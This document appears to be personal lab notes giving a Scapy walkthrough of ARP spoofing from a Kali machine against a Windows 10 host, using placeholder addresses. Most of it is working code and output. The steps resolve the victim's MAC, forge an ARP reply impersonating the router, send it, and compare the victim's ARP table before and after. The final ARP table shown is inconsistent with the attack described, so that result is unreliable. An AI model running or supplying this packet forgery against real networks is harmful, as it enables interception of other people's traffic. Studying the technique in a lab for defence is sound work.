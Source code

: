 # ARP SPOOFING

- ## some variables

```
BROADCAST_MAC: ff:ff:ff:ff:ff:ff

KALI_IP      : KALI_IP
KALI_MAC     : ka:li:ma:c0:ad:dr

W10_IP       : W10_IP
W10_MAC      : w1:00:ma:c0:ad:dr

ROUTER_IP    : ROUTER_IP
ROUTER_MAC   : ro:ut:er:0m:ac:00
```

- create Ether layer
    ```
    broadcast = Ether(dst=BROADCAST_MAC)
    ```
  
    ```
    broadcast.show()
    ```
    output:
    ```
    ###[ Ethernet ]###
        dst= BROADCAST_MAC
        src= KALI_MAC
        type= 0x9000
    ```

- create ARP layer
    ```
    arp_layer = ARP(pdst=W10_IP)
    ```
    ```
    arp_layer.show()
    ```
    output:
    ```
    ###[ ARP ]###
        hwtype= 0x1
        ptype= IPv4
        hwlen= None
        plen= None
        op= who-has
        hwsrc= KALI_MAC
        psrc= KALI_IP
        hwdst= 00:00:00:00:00:00
        pdst= W10_IP
    ```

- create ARP packet
    ```
    arp_packet = broadcast/arp_layer
    ```
    ```
    arp_packet.show()
    ```
    output:
    ```
    ###[ Ethernet ]###
          dst= BROADCAST_MAC
          src= KALI_MAC
          type= ARP
    ###[ ARP ]###
         hwtype= 0x1
         ptype= IPv4
         hwlen= None
         plen= None
         op= who-has
         hwsrc= KALI_MAC
         psrc= KALI_IP
         hwdst= 00:00:00:00:00:00
         pdst= W10_IP
    ```

- send ARP request ang get answered and unanswered lists
    ```
    answer, unanswer = srp(arp_packet, timeout=2, verbose=True)
    ```
    output:
    ```
    Begin emission:
    Finished sending 1 packets.
    
    Received 1 packets, got 1 answers, remaining 0 packets
    ```
    ```
    answer
    ```
    output:
    ```
    <Results: TCP:0 UDP:0 ICMP:0 Other:1>
    ```
    ```
    answer[0]
    ```
    output:
    ```
    (<Ether  dst=BROADCAST_MAC type=ARP |<ARP  pdst=W10_IP |>>,
     <Ether  dst=KALI_MAC src=W10_MAC type=ARP |<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=W10_MAC psrc=W10_IP hwdst=KALI_MAC pdst=KALI_IP |<Padding  load='\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa' |>>>)
    ```
  
- get sent and received layers fromn answer
    ```
    sent, received = answer[0]
    ```
    ```
    sent
    ```
    output:
    ```
    <Ether  dst=BROADCAST_MAC type=ARP |<ARP  pdst=W10_IP |>>
    ```
    ```
    received
    ```
    output:
    ```
    <Ether  dst=KALI_MAC src=W10_MAC type=ARP |<ARP  hwtype=0x1 ptype=IPv4 hwlen=6 plen=4 op=is-at hwsrc=W10_MAC psrc=W10_IP hwdst=KALI_MAC pdst=KALI_IP |<Padding  load='\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa' |>>>
    ```
    ```
    sent.show()
    ```
    output:
    ```
    ###[ Ethernet ]###
        dst= BROADCAST_MAC
        src= KALI_MAC
        type= ARP
    ###[ ARP ]###
         hwtype= 0x1
         ptype= IPv4
         hwlen= None
         plen= None
         op= who-has
         hwsrc= KALI_MAC
         psrc= KALI_IP
         hwdst= 00:00:00:00:00:00
         pdst= W10_IP
    ```
    ```
    received.show()
    ```
    output:
    ```
    ###[ Ethernet ]###
        dst= KALI_MAC
        src= W10_MAC
        type= ARP
    ###[ ARP ]###
         hwtype= 0x1
         ptype= IPv4
         hwlen= 6
         plen= 4
         op= is-at
         hwsrc= W10_MAC  <---
         psrc= W10_IP
         hwdst= KALI_MAC
         pdst= KALI_IP
    ###[ Padding ]###
        load= '\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa'
    ```

- get target mac address
    ```
    target_mac = received.hwsrc # W10_MAC
    ```

- create spoofing packet
    ```
    spoof_packet = ARP(op=2, hwdst=W10_MAC, pdst=W10_IP, psrc=ROUTER_IP)
    ```
    ```
    spoof_packet
    ```
    output:
    ```
    <ARP  op=is-at psrc=ROUTER_IP hwdst=W10_MAC pdst=W10_IP |>
    ```
    ```
    spoof_packet.show()
    ```
    output:
    ```
    ###[ ARP ]###
        hwtype= 0x1
        ptype= IPv4
        hwlen= None
        plen= None
        op= is-at
        hwsrc= KALI_MAC
        psrc= ROUTER_IP
        hwdst= W10_MAC
        pdst= W10_IP
    ```

- check arp
    ```
    C:\>arp -a | findstr "KALI_IP ROUTER_IP"
      KALI_IP           KALI_MAC       dynamic
      ROUTER_IP         ROUTER_MAC     dynamic
    ```

- send spoof packet
    ```
    send(spoof_packet, verbose=False)
    ```
- check again arp 
    ```
    C:\>arp -a | findstr "KALI_IP ROUTER_IP"
      KALI_IP           ROUTER_MAC       dynamic
      ROUTER_IP         ROUTER_MAC     dynamic
    ```
